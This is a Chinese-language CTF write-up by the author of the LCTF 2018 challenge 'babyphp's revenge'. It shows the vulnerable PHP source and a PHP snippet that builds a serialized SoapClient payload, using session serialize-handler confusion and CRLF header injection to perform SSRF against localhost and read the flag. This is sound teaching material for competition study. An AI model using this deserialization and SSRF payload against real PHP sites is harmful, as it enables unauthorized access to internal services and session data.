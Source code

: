 ### babyphp's revenge
代码如下
index.php
```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>
```
flag.php
```php
session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } 
```
hint:反序列化
这题是我出给XCTF Final的bestphp的第二版，搭建看到flag.php的内容也能猜出来是ssrf。大体思路也是session_start支持一个数组参数，可以覆盖php.ini中的部分session相关变量，而session中有个叫做serialize_handler的参数
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/9F6A76C83EA36A7B5E2B37D26D951FF2.jpg)
可以控制session的解析引擎，所以可以借用由解析引擎的不同导致的session反序列化，构造soap类ssrf，获取flag
但是这里有个问题就是如何进行ssrf构造，众所周知soap的ssrf需要调用_call方法，但是这里如何触发呢，我们回到call_user_func
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-19_14-59-44.png)
这里可以发现我们可以直接使用call_user_func执行对象中的方法，由于我们只需要构造出一个soap类的对象就可以执行`welcome_to_the_lctf2018`的方法，因为这个方法不存在，所以我们相当于调用了_call方法
```php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBB\r\n" .
                                             "Cookie:PHPSESSID=dde63k4h9t7c9dfl79np27e912",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b); 
echo urlencode($se);
```


里主要思路是通过php session引擎的不同，导致自动反序列化soap内置类，最终ssrf读到flag

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/121C2F45BD0C6C978579565B052B32C4.jpg)
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/3FFB2A23BA3AF86034D45C718554A964.jpg)


